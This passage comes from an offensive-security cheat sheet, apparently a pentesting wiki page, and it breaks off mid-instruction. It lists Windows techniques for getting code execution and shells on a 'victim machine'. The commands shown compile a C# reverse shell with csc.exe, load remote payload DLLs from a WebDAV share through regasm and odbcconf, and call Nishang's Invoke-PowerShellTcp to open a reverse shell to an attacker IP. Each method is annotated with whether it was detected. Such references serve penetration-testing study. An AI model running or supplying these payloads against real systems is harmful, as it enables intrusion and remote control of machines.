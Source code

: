 **Not detected**

## **CSC**

Compile C\# code in the victim machine.

```text
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:shell.exe shell.cs
```

You can download a basic C\# reverse shell from here: [https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc)

**Not deteted**

## **Regasm/Regsvc**

```text
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```

Process performing network call: **svchost.exe**  
Payload written on disk: **WebDAV client local cache**

**I haven't tried it**

[**https://gist.github.com/Arno0x/71ea3afb412ec1a5490c657e58449182**](https://gist.github.com/Arno0x/71ea3afb412ec1a5490c657e58449182)

## Odbcconf

```text
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```

Process performing network call: **svchost.exe**  
Payload written on disk: **WebDAV client local cache**

**I haven't tried it**

[**https://gist.github.com/Arno0x/45043f0676a55baf484cbcd080bbf7c2**](https://gist.github.com/Arno0x/45043f0676a55baf484cbcd080bbf7c2)

## Powershell Shells

### PS-Nishang

[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

In the **Shells** folder there are a lot of different shells. To download and execute Invoke-_PowerShellTcp.ps1_ make a copy of the script, append to the end of the file:

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.2.0.5 -Port 4444
```

Start serving the script in a web server and execute in the victim:
